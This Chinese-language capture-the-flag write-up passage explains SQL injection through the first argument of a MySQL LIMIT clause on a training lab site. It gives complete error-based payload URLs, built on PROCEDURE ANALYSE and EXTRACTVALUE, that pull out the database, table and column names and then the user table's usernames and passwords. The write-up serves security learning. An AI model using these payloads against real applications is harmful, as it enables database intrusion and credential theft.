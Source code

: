 
按理说，这种时光注入，也能够注入`limit`中的第一个参数。不过我没有试过。

大致过程和`limit`报错注入，通过第一个参数注入的方式差不多





###### CTF_payload



> 此题为`limit`注入，而且只能从第一个参数处注入。此题没有引号什么的包裹数据。而且`'`单引号被转义了



注入第一个参数。

> 第二个参数不能进行注入

猜解数据库名

```
http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=0 procedure analyse(1,(extractvalue(1,concat(0x7e,(select database())))))%23&num=1
```



猜解表名

```
http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=0 procedure analyse(1,(extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())))))%23&num=1
```





猜解列名：

```
http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=0 procedure analyse(1,(extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x61727469636C65)))))%23&num=1
```

> 此处因为单引号转义，所以使用十六进制来表示表名



猜解另一张表名：

```
http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=0 procedure analyse(1,(extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x75736572)))))%23&num=1
```





猜其中数据

```
http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=0 procedure analyse(1,(extractvalue(1,concat(0x7e,mid((select group_concat(username,0x7e,password) from user),20)))))%23&num=1
```

> 此处因为查出来的数据过长。所以使用`mid`函数进行显示(ps.从第20位开始显示)

flag为：`myflagishere`





